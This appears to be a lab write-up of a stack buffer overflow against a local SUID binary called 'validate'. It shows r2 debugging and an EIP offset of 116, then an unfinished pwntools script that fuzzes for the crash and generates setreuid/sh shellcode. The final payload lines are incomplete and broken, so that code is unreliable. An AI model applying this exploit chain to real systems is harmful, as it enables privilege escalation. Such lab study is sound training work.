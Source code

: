 
As this is a command line executable that just takes the input argument and the execution is finished in no time at all there's no way to attach to it. It's also not suitable to use a graphical debugger. Let's go for r2.

We use pwntools cyclic() to generate a non repetitive string:
`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab`

We run r2.
```sh
┌──(kali㉿kali)-[~/bof]
└─$ r2 -d -A validate aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaab
WARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
INFO: glibc.fc_offset = 0x00148
...
[0xf7f99be0]> dc
[+] SIGNAL 11 errno=0 addr=0x62616165 code=1 si_pid=1650549093 ret=0
[0x62616165]> 
```

EIP ends up at 0x62616165

We used pwn cyclic-find() to get the position of this in the string: 116

This is the position where we will


Making script - not finished
```python
#!/usr/bin/env python3
# #2025-01-24

from pwn import *
import subprocess
context.log_level = "error"

executable = "./validate"
r2_path = "/usr/bin/r2"
r2_arguments = "-d"
fuzz_step = 10

print("\nRunning executable with increasing size arguments")
length = 0
while True:
  print(".",end="")
  length += fuzz_step
  io = subprocess.run([executable, "A"*length])
  if not io.returncode == 0:
    print("\nProgram crashed at "+str(length))
    crash_length = length
    break

print("\nGenerating non repeating string")
cyclic_string = cyclic(crash_length)
print(cyclic_string)

print("\nRunning executable in r2 with the generated string")
io = process([r2_path, r2_arguments, executable, cyclic_string])

#put the command to start running the program in the buffer
io.sendline(b'dc\n')

while True:
  received_line = io.recvlineS().strip()
  #print(received_line)

  if 'SIGNAL 11' in received_line:
    print("Buffer overflow: "+received_line)
    pos = received_line.find("addr=")
    crash_address = int(received_line[pos+5:][:10],0)
    print("Crash address: "+str(crash_address))
    break

#quitting r2
io.sendline(b'q\n')

print("\nFinding eip position using r2 output of crash address")
eip_position = cyclic_find(crash_address)
print("EIP position: "+str(eip_position))

print("\nGenerating shellcode for a SUID binary - user id 1001")
context.arch = "i386"
context.bits = 32
shell_i386 = shellcraft.i386.linux.setreuid("1001")+shellcraft.i386.linux.sh()
#print(shell_i386) # outputs assembler code
shellcode = asm(shell_i386)
print("Shellcode: "+str(shellcode)) # generates machine code in bytes format
print("Shellcode length: "+str(len(shellcode))+"bytes")

#badchars?

#address for jmp esp or something - OR just the address we're on when writing

e = ELF(executable)

print("\nFunctions:")
for function in e.functions.values():
  print("\nDisassembling function %s at %#x" % (function.name, function.address))
  print(e.disasm(e.symbols[function.name], function.size))

address = 0 #where we have jmp esp or something

print("\nThe full payload would be")
#payload = b"A"*eip_position+address
payload = +address

```